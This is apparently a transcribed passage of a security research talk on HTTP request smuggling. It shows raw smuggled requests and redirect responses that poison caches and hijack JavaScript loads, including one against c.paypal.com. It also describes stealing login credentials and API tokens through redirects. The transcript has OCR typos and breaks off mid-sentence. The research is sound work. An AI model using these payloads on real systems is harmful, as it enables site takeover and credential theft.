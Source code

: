 now a quite a  few local redirects actually turn into  open redirects in the presence of  requests smuggling, because we can change  the smuggled host header.
in particular  there's a default behavior on Apache and  most versions of iis, whereby if you try  and access a folder and you don't  specify the training slash they give you  a redirect to put the slash on and they  populate the host name in that redirect  using the host header. 
```HTTP
POST / HTTP/1.1
Host: redacted.com
Content-length: 57
Transfer-Encoding: chunked

0

POST /etc HTTP/1.1
Host: burpcollaborator.net
X: X GET /etc/libs/xyz.js HTTP/1.1
```
~~~response
 HTTP/1.1 301 Movev Permanently  
 Location: https://burpcollaborator.net/etc/ 
~~~

because this  technique works on loads of systems,  you can use that to redirect JavaScript  loads on the target website and thereby  gain full control over whatever  page the JavaScript load comes from. and  use it for cache poisoning in just came  like full control over the website more  or less permanently. This became my  default technique to exploit this  vulnerability, and I got quite a few  different bounties using it.

a couple of  extra points worth mentioning if you get  a 307 open redirect that is absolute  gold dust, because imagine a web browser  is doing a post request to log someone  in ¿right? if it receives a 307 redirect, it will repost those credentials to the  new website. so you can just make people  send you their username and password in  plain text with no user interaction. also  worth mentioning is that some thick clients, like a non browser-based  HTTP libraries have that data reposting  behavior on all the redirects rather  than just 307 ones, so for example on New  Relic I was able to to steal the API  tokens off one of their clients, even  though they were only using a 301 redirect.
### PayPal Poisoning
now one of the targets that  this redirect cache poisoning JavaScript  hijacking strategy worked on who was  PayPal. if you try to access web static, they gave you a redirect using the host  header to populate it. 
~~~HTTP
POST /webstatis/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Content-length: 61
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatis/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Connection: close
~~~
~~~response
 HTTP/1.1 302 Found  
 Location: https://skeletonscribe.net?, c.paypal.com/webstatic/ 
~~~
there was a couple  of problems though. one is that the two  hosts headers were getting concatenated,  and we only control the first one, so  this was breaking the redirect, but that  was easily fixed by sticking a question  mark at the end of the host header. the  other issue is the protocol on this redirect its HTTP,  and because of  browsers as a mixed content protections  that meant that this is only going to be  exploitable in Safari and edge and AI  for the details of how you can exploit  those, you'll need to check out my cache  poisoning presentation from last year, because I don't have time to cover it  right now. but important thing is,
paypal.com/sigin ---> c.paypal.com/fb-all.js